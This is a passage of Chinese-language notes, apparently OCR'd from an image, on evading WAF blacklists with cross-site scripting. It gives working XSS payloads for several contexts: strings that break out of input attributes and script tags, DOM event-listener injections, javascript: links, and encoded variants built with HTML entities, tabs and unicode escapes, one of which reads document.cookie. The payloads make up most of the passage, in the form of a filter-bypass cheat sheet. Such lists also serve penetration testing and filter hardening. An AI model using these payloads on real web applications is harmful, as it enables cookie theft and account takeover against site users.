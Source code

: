 			formaction=
			location=
			on*=
			name=
			background=
			poster=
			src=
			code=
			data= //只支持base64

		4. 基于上下文的过滤
		WAF最大的问题是不能理解内容，使用黑名单可以阻挡独立的js脚本，但仍不能对xss提供足够的保护，如果一个反射型的XSS是下面这种形式

		(1)输入反射属性
			<input value="XSStest" type=text>
			我们可以使用 “><imgsrc=x  onerror=prompt(0);>触发，但是如果<>被过滤，我们仍然可以使用“ autofocusonfocus=alert(1)//触发，基本是使用“ 关闭value属性，再加入我们的执行脚本
			" onmouseover="prompt(0) x="
			" onfocusin=alert(1)     autofocus x="
			" onfocusout=alert(1)     autofocus x="
			" onblur=alert(1) autofocus     a="
			输入反射在<script>标签内
			类似这种情况：
			<script>
			Var
			x=”Input”;
			</script>
			通常，我们使用“></script>,闭合前面的</script>标签，然而在这种情况，我们也可以直接输入执行脚本alert(), prompt()
			confirm() ，例如：
			“;alert(1)//
		(2)非常规事件监听
			DOMfocusin,DOMfocusout,等事件，这些需要特定的事件监听适当的执行。例如：
			";document.body.addEventListener("DOMActivate",alert(1))//
			";document.body.addEventListener("DOMActivate",prompt(1))//
			";document.body.addEventListener("DOMActivate",confirm(1))//
			此类事件的列表
			DOMAttrModified
			DOMCharacterDataModified
			DOMFocusIn
			DOMFocusOut
			DOMMouseScroll
			DOMNodeInserted
			DOMNodeInsertedIntoDocument
			DOMNodeRemoved
			DOMNodeRemovedFromDocument
			DOMSubtreeModified
		(3)超文本内容
			代码中的情况如下
			<a
			href=”Userinput”>Click</a>
			可以使用javascript:alert(1)//直接执行<a
			href=”javascript:alert(1)//”>Click</a>
		(4)变形
			主要包含大小写和JavaScript变形
			javascript&#058;alert(1)
			javaSCRIPT&colon;alert(1)
			JaVaScRipT:alert(1)
			javas&Tab;cript:\u0061lert(1);
			javascript:\u0061lert&#x28;1&#x29
			avascript&#x3A;alert&lpar;document&period;cookie&rpar;      // AsharJaved
			IE10以下和URI中可以使用VBScript
			vbscript:alert(1);
			vbscript&#058;alert(1);
			vbscr&Tab;ipt:alert(1)"
			Data URl